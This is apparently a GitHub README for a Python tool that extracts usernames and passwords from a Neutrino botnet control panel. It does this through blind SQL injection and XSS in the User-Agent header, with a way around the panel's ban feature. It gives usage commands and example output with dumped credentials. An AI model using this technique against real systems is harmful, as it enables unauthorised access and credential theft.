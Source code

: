 # NeutrinoBotHack
Blind SQL injection in Neutrino panel

## Neutrino now uses POST request, but just as badly as before.
They added a 'ban' feature that blocks you upon ANY invalid request, meaning you can no longer abuse the POST variable 'ip'.
You can still set your ip via this variable however and can XSS and blind SQLi inject via the 'user-agent' header in the same request, this adds you to the banned list, with your ip set as the 'ip' variable.

This module fills in your ip as a random number and completes requests with a binary search rather than brute-forcing. 
This means less requests, less noise and takes less time.


### Usage
This module requires the python [Requests](http://docs.python-requests.org/en/master/# "Requests doc page") module.

**Install**
```
pip install requests
```

**Use**
```
python neutrino.py http://panel-url-or-ip/
```


### Example
```
python neutrino.py http://127.0.0.1/
No. of users: 3


Username:
admin
Password:
admin

Username:
secretuser
Password:
SeceretPass1

Username:
user
Password:
mypass

Number of requests made: 582
Time taken: 147 seconds

Requests per second: 3
```
![alt tag](https://raw.githubusercontent.com/LordDannyBoi/NeutrinoBotHack/master/example.png)
